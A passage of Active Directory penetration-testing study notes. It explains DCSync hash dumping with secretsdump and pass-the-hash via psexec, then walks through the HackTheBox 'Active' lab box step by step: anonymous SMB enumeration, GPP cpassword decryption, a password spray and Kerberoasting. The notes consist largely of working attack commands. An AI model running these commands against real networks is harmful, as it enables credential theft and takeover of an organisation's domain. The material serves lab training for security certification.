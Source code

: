 #### What is it?
DCSync allows you to **impersonate a domain controller** and request password hashes for any user in the domain.

#### When to use it?
- **After you have high privileges** (not beginner attack)
- When BloodHound shows "DCSync Rights"  
- Usually your final attack before full domain compromise

#### How it works:
```bash
# 1. Check if you have DCSync rights
crackmapexec smb $TARGET -u $USER -p "$PASS" --ntds

# 2. If yes, dump all domain hashes
secretsdump.py -just-dc $DOMAIN/$USER:"$PASS"@$TARGET

# 3. Use Administrator hash for Pass-the-Hash
psexec.py $DOMAIN/Administrator@$TARGET -hashes aad3b435b51404eeaad3b435b51404ee:<NTLM_HASH>

# 4. Why does this work?
# Domain Controllers sync password data between each other
# If you have "Replicating Directory Changes" permission,
# you can pretend to be another DC and request all passwords
# This gives you EVERY password hash in the domain
```

---

## TJ Null AD Box Walkthroughs

### Box 1: Active (HTB) - GPP cPassword Attack
**Difficulty: Easy | Key Learning: Group Policy Preferences**

#### Attack Path: SMB → GPP Password → Kerberoasting → Domain Admin

```bash
# Step 1: SMB enumeration (no credentials needed)
smbclient -L //10.10.10.100 -N
# Result: Found "Replication" share with READ access

# Step 2: Connect to share and download files
smbclient //10.10.10.100/Replication -N
smb> recurse on
smb> prompt off
smb> mget *

# Step 3: Search for GPP passwords
find . -name "*.xml" -exec grep -l "cpassword" {} \;
# Result: Found Groups.xml with cpassword

# Step 4: Decrypt the password
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
# Result: GPPstillStandingStrong2k18

# Step 5: Password spray to find which user has this password
crackmapexec smb 10.10.10.100 -u users.txt -p 'GPPstillStandingStrong2k18'
# Result: SVC_TGS:GPPstillStandingStrong2k18

# Step 6: Kerberoasting with valid credentials
GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -request
# Result: Got Administrator's service ticket

```